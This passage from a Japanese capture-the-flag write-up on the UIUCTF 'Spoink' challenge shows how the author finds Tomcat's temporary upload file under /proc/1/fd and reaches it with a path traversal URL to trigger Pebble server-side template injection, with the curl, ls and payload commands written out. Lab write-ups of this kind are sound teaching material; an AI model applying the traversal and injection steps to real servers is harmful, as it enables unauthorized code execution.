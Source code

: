 推測は無理に見える。

途方に暮れてソースコードを漁っていたら、アプリケーション側でこの一時ファイルを明示的に使用していなくてもSpring（Tomcat）の内部実装ではファイルをopenしていることに気づいた。つまり、ファイルディスクリプタが割り当てられるのでは？と閃いた。

Dockerコンテナ内ではアプリケーションのプロセスIDは1なので、`/proc/1/fd/*`から一時ファイルへのシンボリックリンクが張られそう。

再び
```
$ curl --limit-rate 1k -X POST http://localhost:8080 -F a=@./big.txt
```
でリクエストを送り、レスポンスが返ってくる前にサーバ上でlsで確認:
```
chalusr@4c6d91e6f3f8:/proc/1/fd$ ls -la
total 0
dr-x------ 2 chalusr chalusr  0 Aug  1 12:28 .
dr-xr-xr-x 9 chalusr chalusr  0 Aug  1 12:28 ..
lrwx------ 1 chalusr chalusr 64 Aug  1 12:28 0 -> /dev/null
l-wx------ 1 chalusr chalusr 64 Aug  1 12:28 1 -> 'pipe:[4141757]'
lrwx------ 1 chalusr chalusr 64 Aug  1 12:28 10 -> 'anon_inode:[eventpoll]'
lrwx------ 1 chalusr chalusr 64 Aug  1 12:46 11 -> 'anon_inode:[eventfd]'
lrwx------ 1 chalusr chalusr 64 Aug  1 12:46 13 -> 'socket:[4145313]'
l-wx------ 1 chalusr chalusr 64 Aug  1 12:46 14 -> /tmp/tomcat.8080.2138978788528246977/work/Tomcat/localhost/ROOT/upload_6c990f06_a3c1_471e_a5cc_1fc69fac296c_00000001.tmp
l-wx------ 1 chalusr chalusr 64 Aug  1 12:28 2 -> 'pipe:[4141758]'
lr-x------ 1 chalusr chalusr 64 Aug  1 12:28 3 -> /usr/local/openjdk-18/lib/modules
lr-x------ 1 chalusr chalusr 64 Aug  1 12:28 4 -> /usr/src/app/spoink-0.0.1-SNAPSHOT-spring-boot.jar
lr-x------ 1 chalusr chalusr 64 Aug  1 12:28 5 -> /usr/src/app/spoink-0.0.1-SNAPSHOT-spring-boot.jar
lr-x------ 1 chalusr chalusr 64 Aug  1 12:28 6 -> /dev/random
lrwx------ 1 chalusr chalusr 64 Aug  1 12:28 7 -> 'socket:[4142804]'
lr-x------ 1 chalusr chalusr 64 Aug  1 12:28 8 -> /dev/urandom
lrwx------ 1 chalusr chalusr 64 Aug  1 12:28 9 -> 'socket:[4141856]'
```

`/proc/1/fd/14`にシンボリックリンクがある。

試しに
```
$ echo '{{ "Hello, SSTI" }}' > hello.pebble
$ seq 50000 | sed 's/^.*$/test/' >> hello.pebble
```
で先頭に`Hello, SSTI`とレンダリングされる`hello.pebble`を作成して送信し、ブラウザで

- `/?x=../../../../proc/1/fd/14`

にアクセスした:

![](/images/2022/20220801-uiuctf-03.png)

良さそう。テンプレートエンジンも動いている。これは勝ちです。

あとはSSTIからRCEにつなげるだけ。どうせ既知のRCE手法があるでしょと軽く見ていた。そう、このときまでは...

### パート4: SSTI to RCE（起）


[^intro-1]: jailカテゴリではpyjailやFirefoxアドオンに関する問題が出題されてました。Firefoxアドオンの問題は見たことがないのでwriteupが手に入ったら復習したいです。他にもsystemsやosintの謎カテゴリもありました。
[^intro-2]: 面倒くさいという観点で難しいということではなく、本質的に解くのが難しく解きごたえがあって良いという意味。
[^intro-3]: Spoinkはポケモンのバネブーの英語名らしい。
[^spoink-1]: 追記: どうやらDALL·EやMidjourneyで生成した画像（絵）らしい。すべての問題に対して絵が用意されていてすごいなと思っていたけど、なるほど。問題文内の"a cute anthropomorphised spring as a line drawing"がAIに投げた文字列に対応している。CTFらしい良い試みだと思う。
[^part2-1]: PHPに関しては「HITCON CTFでPHPやばすぎ問題が出題される → 典型として浸透する」という流れがよくあるイメージなので、Orange氏の[作問リスト](https://github.com/orangetw/My-CTF-Web-Challenges)をチェックしておくのは有用なのではと最近考えてる。